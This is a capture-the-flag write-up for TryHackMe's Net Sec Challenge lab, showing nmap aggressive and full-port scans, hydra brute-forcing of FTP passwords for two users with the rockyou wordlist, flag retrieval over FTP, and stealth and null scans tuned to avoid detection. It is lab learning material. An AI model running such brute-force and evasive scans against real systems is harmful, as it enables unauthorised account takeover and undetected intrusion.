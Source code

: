 # Net Sec Challenge
This writeup summarizes the steps i took to complete the Net Sec Challenge on tryhackme (https://tryhackme.com/room/netsecchallenge). First of all the introduction describes that all questions can be answered using only nmap, telnet and hydra. So i tried limiting myself to these tools to increase the learning experience. 

The first step was to gather as much information as possible using nmap with different options as follows:

```text-x-sh
kali@kali:~$ sudo nmap -A -p- 10.10.173.36
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 20:56 CET
Nmap scan report for 10.10.173.36
Host is up (0.040s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 ***{************}
80/tcp    open  http        lighttpd
|_http-title: Hello, world!
|_http-server-header: lighttpd ***{****************}
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
****/tcp  open  http        Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
*****/tcp open  ftp         vsftpd *.*.*
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.94SVN%I=7%D=1/11%Time=65A0480A%P=x86_64-unknown-linux-gn
SF:u%r(NULL,29,"SSH-2\.0-OpenSSH_8\.2p1\x20***{************}\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/11%OT=22%CT=1%CU=35986%PV=Y%DS=2%DC=T%G=Y%TM=65A0
OS:481E%P=x86_64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%
OS:TS=A)SEQ(SP=105%GCD=2%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M509ST11NW7%O2=
OS:M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WI
OS:N(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F5
OS:07%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3
OS:(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%R
OS:IPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Unix

Host script results:
|_nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-11T19:57:15
|_  start_date: N/A

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   39.69 ms 10.18.0.1
2   39.87 ms 10.10.173.36

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.57 seconds
```

Using the aggressive nmap scan ("-A") allowed me to answer the first six questions. I also wanted to scan all ports, so i used the option “-p-”. An alternative would be “-p1-65535”. 

For the following question i had to use hydra for the two usernames “eddie” and “quinn”:

```text-x-sh
kali@kali:~$ hydra -l eddie -P /usr/share/wordlists/rockyou.txt 10.10.173.36 -s ***** ftp
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-11 21:09:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.173.36:*****/
[*****][ftp] host: 10.10.173.36   login: eddie   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-11 21:09:29

kali@kali:~$ hydra -l quinn -P /usr/share/wordlists/rockyou.txt 10.10.173.36 -s ***** ftp
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-11 21:09:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.173.36:10021/
[*****][ftp] host: 10.10.173.36   login: quinn   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-11 21:09:56	
```

I used the “rockyou” wordlist, which gave me the valid passwords for both accounts with nearly no time loss. You should pay attention to the “-s” parameter, which determines the port to attack on, because the target vm doesn't use the default one. After i got the credentials, i connected to the ftp-server using telnet and found the next flag inside of quinn's home-directory:

```text-x-sh
kali@kali:~$ ftp 10.10.173.36 10021
Connected to 10.10.173.36.
220 (vsFTPd 3.0.3)
Name (10.10.173.36:kali): quinn
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30079|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||30434|)
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |***********************************|    18        9.67 KiB/s    00:00 ETA
226 Transfer complete.
18 bytes received in 00:00 (0.39 KiB/s)
ftp> quit
221 Goodbye.
kali@kali:~$ ls
ftp_flag.txt
kali@kali:~$ cat ftp_flag.txt 
***{************}
```

I also tried using telnet but didn't get a list of files using the LIST-command. Instead i had to switch to the passive mode and opened a data-channel (described in [https://www.filestash.app/2021/08/07/ftp-with-telnet/).](https://www.filestash.app/2021/08/07/ftp-with-telnet/).) Establishing a data-channel worked as well as running the LIST-command, but the data-channel closed before getting the results:

```text-x-sh
kali@kali:~$ sudo telnet 10.10.173.36 30525
[sudo] password for kali: 
Trying 10.10.173.36...
Connected to 10.10.173.36.
Escape character is '^]'.
Connection closed by foreign host.
```

The final task was about scanning the server as covertly as possible. Opening the website on port 8080 led to the following page:

![](Net Sec Challenge_image.png)

We have to be careful to only scan all needed ports (“-p1,2,3,…,65535”). Nmap also has the “T”-option, which reduces the noise by setting the timing template (according to the nmap man-page: higher is faster). We can also choose a Stealth-scan using “-sS”. Another approach would be a Null-scan.

So i reset the packet counter and first tried a Stealth-scan on an increased time interval:

```text-x-sh
kali@kali:~$ sudo nmap -sS -T3 10.10.173.36
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 22:03 CET
Nmap scan report for 10.10.173.36
Host is up (0.039s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
****/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```

This was still too noisy and i even didn't find the ftp port. So i tried a Null-scan ("-sN") and reduced to all ports i had already determined:

```text-x-sh
kali@kali:~$ sudo nmap -sN -T3 -p22,80,139,445,****,***** 10.10.173.36
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 22:10 CET
Nmap scan report for 10.10.173.36
Host is up (0.041s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
****/tcp open|filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.89 seconds
```

This scan resulted in a 0% chance of being detected and revealed the flag:

![](2_Net Sec Challenge_image.png)

I also wanted to know how long it took to scan the system when producing less noise:

```text-x-sh
kali@kali:~$ sudo nmap -sN -T2 -p22,80,139,445,****,***** 10.10.173.36
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 22:13 CET
Nmap scan report for 10.10.173.36
Host is up (0.039s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
****/tcp open|filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 404.11 seconds
```

It took a lot more time but the results were the following:

![](1_Net Sec Challenge_image.png)

I'm not sure if this was a bug^^